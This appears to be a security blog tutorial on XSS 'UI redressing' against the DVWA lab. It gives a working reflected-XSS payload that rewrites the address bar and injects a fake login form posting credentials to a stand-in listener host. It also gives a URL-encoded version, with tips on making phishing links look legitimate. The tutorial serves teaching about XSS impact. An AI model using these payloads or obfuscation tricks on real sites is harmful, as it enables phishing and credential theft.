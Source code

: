 ```yaml
---
layout: post
title: XSS UI Redressing
date:   2019-09-23 12:00:00
categories: web
permalink: "/web/xss-ui-redirection"
---
```


## Moving Beyond alert('xss')

Most people know all about making an alert box pop or getting a cookie sent to an external site with document.cookie. It makes since, it is easy to demo and for the most part makes for a great proof of concept.

Unfortunately these sometimes fail to showcase some of the more potentially devious outcomes from having a site that is vulnerable to XSS.

I recently came across a form of XSS that is called ui redressing. As I researched and learned more about it I came to see how malicious a XSS attack could be.

### What is UI Redressing?
Redressing leverages features of html5 to call the history.replaceState or history.pushState functions to the browser. These functions allow a script to re-write what is presented in the URL bar after a page has loaded.

A script, rewrites the url presented in the address bar after loading the page. I'll let that sink in for a minute.
I first came across this method randomly on swisskyrepo's xss injection GitHub page.

From the example on the swisskyrepo's page history.replaceState() is leveraged to replace the page with a /login. 
*Note: history.pushState() could also be used.*

When the script is ran the url bar will be re-written from: 
```
http://dvwa/vulnerabilities/xss_r/?name=yogi#
```

to something a bit more devious
```
http://dvwa/login
```

So what? Whats the big deal, the url is re-written but the page is still the page it should be. Right? Maybe, unless the page gets changed with the document.body.innerHTML property...

### In Practice
Up until this point we have seen how UI redressing can be used to change the address bar. Let's leverage that and also re-write the html page to something a little bit more fitting of a login url.
Using the script below we can change the URL to http://dvwa/login and also create a new html page for it with document.body.innerHTML.

```
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><center><h2>Please login to access secure portion of our site.</h2><form action='http://SomeMaliciousListener'>Username: <input type='text'>Password: <input type='password'><input value='submit' type='submit'></form>"
</script>
```

That's it. We can send a Phishing email with a url that is vulnerable to a reflected XSS and include that code as our payload. 

```
http://dvwa/vulnerabilities/xss_r/?name=<script>history.replaceState(null, null, '.
./../../login');document.body.innerHTML = "</br></br></br></br></br><center><h2>Ple
ase login to access secure portion of our site.</h2><form action='http://SomeMalici
ousListener'>Username: <input type='text'>Password: <input type='password'><input v
alue='submit' type='submit'></form>"</script>
```

Even though the page that is expected to load looks similar to this:



![UI Redressing 1](/images/xssuiredressing1.png "UI Redressing 1")


When the victim clicks the link the login page below will load:

![UI Redressing 2](/images/xssuiredressing2.png "UI Redressing 2")

What about site certificates? It is not a problem. The victim is still on the real site. They are just at a destination that does not really exist except for them. 

Wont they notice something weird about the url? Perhaps, I do not recommend sending a url that is full of html and javascript code. URL encoding it to something like this is much more favorable. 

```
http://dvwa/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%3e%68%69%73%74%6f%72%
79%2e%72%65%70%6c%61%63%65%53%74%61%74%65%28%6e%75%6c%6c%2c%20%6e%75%6c%6c%2c%20%27
%2e%2e%2f%2e%2e%2f%2e%2e%2f%6c%6f%67%69%6e%27%29%3b%64%6f%63%75%6d%65%6e%74%2e%62%6
f%64%79%2e%69%6e%6e%65%72%48%54%4d%4c%20%3d%20%22%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%
2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%63%65%6e%74%65%72%3e%3c%68%32%3e%50%6c
%65%61%73%65%20%6c%6f%67%69%6e%20%74%6f%20%61%63%63%65%73%73%20%73%65%63%75%72%65%2
0%70%6f%72%74%69%6f%6e%20%6f%66%20%6f%75%72%20%73%69%74%65%2e%3c%2f%68%32%3e%3c%66%
6f%72%6d%20%61%63%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%53%6f%6d%65%4d%61%6c%69%63
%69%6f%75%73%4c%69%73%74%65%6e%65%72%27%3e%55%73%65%72%6e%61%6d%65%3a%20%3c%69%6e%7
0%75%74%20%74%79%70%65%3d%27%74%65%78%74%27%3e%50%61%73%73%77%6f%72%64%3a%20%3c%69%
6e%70%75%74%20%74%79%70%65%3d%27%70%61%73%73%77%6f%72%64%27%3e%3c%69%6e%70%75%74%20
%76%61%6c%75%65%3d%27%73%75%62%6d%69%74%27%20%74%79%70%65%3d%27%73%75%62%6d%69%74%2
7%3e%3c%2f%66%6f%72%6d%3e%22%3c%2f%73%63%72%69%70%74%3e
```

This url looks much more 'official' most people will see this url and think: 

*"oh, just your typical super long url, much be official. Let me check my training. Yup goes to the domain I expect, yup certificate is valid, must be a real site. Safe to login."*

I think that the long url lends itself towards being perceived as more legitimate.